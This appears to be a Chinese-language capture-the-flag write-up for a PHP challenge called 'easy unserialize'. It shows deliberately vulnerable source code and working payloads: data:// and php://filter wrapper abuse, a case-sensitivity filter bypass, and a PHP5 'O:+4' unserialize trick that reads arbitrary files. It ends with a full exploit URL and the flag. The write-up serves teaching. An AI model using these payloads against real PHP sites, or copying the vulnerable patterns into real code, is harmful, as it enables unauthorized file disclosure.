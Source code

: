 ## easy unserialize

这题主要就是让大家了解一下文件包含和反序列化，但是似乎太简单了，所以加一个php5时代的古早漏洞，随便搜一搜都是铺天盖地的文章。看到不少同学通过这道题重拾对Web的信心我还是很欣慰的（￣︶￣）↗　

首页的注释里包含了index.php的源码：

```php
<?php
error_reporting(0);
$user = $_GET["user"];
$file = $_GET["file"];
$pass = $_GET["pass"];

if(isset($user)&&(file_get_contents($user,'r')==="I'm admin")){  
    echo "hello admin!<br>";  
    if(preg_match("/f1a9/",$file)){  
        die('Stop hacking!');
    }
    include($file); //try to read class.php
    
    if(preg_match('/O:\d:/i', $pass)) { 
    	die('I told you to stop hacking!');
    }
    echo unserialize($pass);
      
}else{  
    echo "you are not admin ! ";  
}  

?> 
```

逻辑很简单，GET方式获取"user"、"file"、"pass"三个参数，首先需要满足file_get_contents($user,'r')==="I'm admin"，可以通过php伪协议data://实现。

```
user=data://text/plain,I'm admin
```

文件包含这里可以通过php伪协议php://filter读取任意文件，源码中提示读取class.php，注意这里要base64编码，否则会被作为php代码执行。

```
user=data://text/plain,I'm admin&file=php://filter/read=convert.base64-encode/resource=class.php
```

class.php：

```php
<?php

//flag in f1a9.php
class Read{
    public $file;
    public function __toString(){
        if(isset($this->file)){
            echo file_get_contents($this->file);    
        }
        return "__toString was called!";
    }
}
?>
```

Read类实现了读取文件的功能，配合index.php的反序列化可以实现任意文件读，源码中提示flag在f1a9.php中，因此反序列化读取f1a9.php即可。

有同学可能会问，上一步的文件包含已经实现任意文件读了呀，为什么不能在上一步读取f1a9.php呢？想法非常好，可惜出题人早就料到你的骚操作了，看到下面这句代码了没，直接die()送你回家^_^

```
if(preg_match("/f1a9/",$file)){  
    die('Stop hacking!');
}
```

当然了，不要气馁，其实这里也有一点小问题，我的正则表达式写的是"/f1a9/"，没有声明大小写不敏感("/f1a9/i")，在linux这种文件大小写敏感的系统中没有问题，但如果运行在Windows这种文件大小写不敏感的系统中，我们是可以通过大小写绕过的：

```
user=data://text/plain,I'm admin&file=php://filter/read=convert.base64-encode/resource=F1a9.php
```

同学们可以在Windows中使用`php -S 127.0.0.1:80`临时搭建php服务实验一下，亲测可用。

由于题目服务器环境为linux，解题的时候这种方法并不可行，但并不意味着该漏洞不存在。许多题目的解法并不唯一，非预期解也是解法的一种，一些严重的漏洞也都是从刁钻的角度被挖出来的，希望大家在以后的比赛和研究中多多思考，灵活的思维才更容易产出高质量的成果。

回归正题，我们使用反序列化读取f1a9.php：

```php
<?php
 
class Read{//f1a9.php
    public $file;
    public function __toString(){
        if(isset($this->file)){
            echo file_get_contents($this->file);    
        }
        return "__toString was called!";
    }
}

$o=new Read();
$o->file="f1a9.php";
print(serialize($o));
?>
```

Payload:

```
user=data://text/plain,I'm admin&file=class.php&pass=O:4:"Read":1:{s:4:"file";s:8:"f1a9.php";}
```

但这里有个问题，源码中存在对"/O:\d:/i"的正则检测：

```
if(preg_match('/O:\d:/i', $pass)) { 
	die('I told you to stop hacking!');
}
```

这里可以参考https://www.phpbug.cn/archives/32.html，PHP5中存在一个小bug，将O:4改为O:+4即可绕过检测，并且可以正常反序列化。

Payload改为：

```
user=data://text/plain,I'm admin&file=class.php&pass=O:+4:"Read":1:{s:4:"file";s:8:"f1a9.php";}
```

最终Payload：

```
http://10.212.27.23:8085/?user=data://text/plain,I%27m%20admin&file=class.php&pass=O:%2b4:%22Read%22:1:{s:4:%22file%22;s:8:%22f1a9.php%22;}
```

如果在浏览器中访问，则需要查看源代码才能看到flag，因为php文件由<?php开头，而浏览器中尖括号包裹的部分会被解析为标签，尽管无法正常解析为html，但也不会显示给用户。

### flag

flag{00b74ef6-c1a4-4e24-9e3c-67072b20e797}

